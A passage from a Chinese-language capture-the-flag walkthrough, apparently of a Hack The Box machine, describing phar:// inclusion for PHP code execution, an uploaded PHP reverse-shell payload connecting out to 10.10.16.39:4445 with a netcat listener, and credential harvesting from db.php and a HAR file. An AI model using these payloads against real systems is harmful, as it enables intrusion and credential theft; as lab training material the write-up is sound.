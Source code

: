 访问如下命令，可以直接执行php代码。  
```
?page=phar://uploads/0000af8b7fb5d897811078a2ded3ace98479cea3.zip/phpinfo
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKticpB4gf2ic4QyeJAAMPK3t1jmtaybVHgS0lhkaKeSeq0YZmibdMtIPezQ/640?wx_fmt=png "")  
  
             
  
在kali监听4445端口  
```
nc -lnvp 4445
```  
  
   
  
上传反弹shell文件  
```
<?php eval(system("bash -c 'bash -i >& /dev/tcp/10.10.16.39/4445 0>&1'")); ?>
```  
  
            
  
成功反弹**shell**，获取**www-data**权限。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtRgW3GPRCuOicFUUaIAQTIY9KnTP6mibf3mPLEo49PEsMWvkGoVFH85RA/640?wx_fmt=png "")  
  
             
  
**0002.获取msainristil权限**      
  
在**/home**目录下发现两个用户**msainristil**和**zzinter**，我们的**目标是获取这两个用户或root的权限。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtE3B1fDVjjyq0G0pygRRtldDe8ZK9skEgMIA8Mhiaa67uicfdrfztNcoQ/640?wx_fmt=png "")  
  
             
  
在**/var/www/itrc/db.php**文件下发现mysql的用户名密码。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtBbFHUp0ckiaPYrSib67RrLeckqkIHBQwiargocrf0wAlkMoQbgyb4CZ0g/640?wx_fmt=png "")  
  
  
连接mysql需要交互式shell，当前环境没有python，无法使用python改变交互模式，所以进入mysql需要借助socat。    
  
连接mysql时主机要指定db。  
```
mysql -h db -u jj -p
```  
  
mysql获取的用户密码无法解密。mysql对解题无帮助，这里就略写。  
  
ping db，发现ip地址为172.233.0.2。  
  
当前环境无法使用ifconfig，借助工具发现当前环境ip为172.233.0.3，且在  
根目录发现.dockerenv文件，确定当前环境为docker内部  
。      
  
22端口的ssh是docker内部的服务，2222端口的ssh应该是主机的服务。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs9ichfplmKEJNch7DHYwuBnKtFo0oPVO2AqYLWjFgTNUCtzPKaoTIqgTFpQ8yJNDxWt9RS4xtDUlxZw/640?wx_fmt=png "")  
  
             
  
**/var/www/html/uploads/c2f48xxxx.zip**  
文件中有个文件**itrc.ssg.htb.har**，在里面找到**msainristil**用户的密码。  
```
unzip c2f4813259cc57fab36b311c5058cf031cb6eb51.zip
cat itrc.ssg.htb.har | grep msainristil
```  
  